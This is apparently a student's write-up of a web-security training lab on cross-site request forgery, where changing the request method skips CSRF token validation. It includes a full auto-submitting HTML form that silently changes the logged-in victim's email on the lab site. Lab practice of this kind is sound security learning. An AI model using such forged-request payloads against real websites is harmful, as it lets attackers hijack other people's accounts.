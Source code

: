 #### LAB

![](../images/Pasted%20image%2020241002135107.png)

As the lab says, the moment we try to change the email from an user we don't have the **csrf** **token**, we'll get the following response:


![](../images/Pasted%20image%2020241002141557.png)
That's why, we'll change the request method: 
![](../images/Pasted%20image%2020241002141626.png)
![](../images/Pasted%20image%2020241002141636.png)
Now, the bad request error does not appear, let's create an exploit for this vulnerability:

```html
<html>
    <body>
        <script>history.pushState('', '', '/')</script>
        <form action="https://0a2a0000044420138416a9c900d500de.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="jim&#64;hudson&#46;com" />
            <input type="hidden" name="csrf" value="1234" />
            <input type="submit" value="Submit request" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

As I lack Burp pro edition, I created my own payload from scratch, let's test it:

![](../images/Pasted%20image%2020241002142553.png)
And it worked, we were able to change email.

